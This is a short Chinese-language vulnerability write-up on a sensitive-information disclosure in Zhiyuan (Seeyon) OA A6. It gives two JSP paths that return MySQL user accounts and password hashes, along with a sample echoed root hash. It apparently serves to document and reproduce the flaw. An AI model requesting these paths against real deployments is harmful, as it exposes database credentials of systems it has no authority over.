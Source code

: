 ```yaml
---
title: 致远OA A6 敏感信息泄露（一）
id: zhfly3350
---
```


# 致远OA A6 敏感信息泄露（一）

## 一、漏洞简介

该漏洞泄露了数据库用户的账号，密码hash。访问该文件直接执行了Select * from mysql.user;并回显

## 二、漏洞影响

致远OA A6

## 三、复现过程

##### 漏洞位置:

```
http://www.0-sec.org/yyoa/createMysql.jsp `[http://www.0-sec.org/yyoa/ext/createMysql.jsp](http://www.0-sec.org/yyoa/ext/createMysql.jsp)` 
```

回显内容：

```
root `*1532B21FE550E115F113DAA9A26D0EEEEF8DEDC7` 
```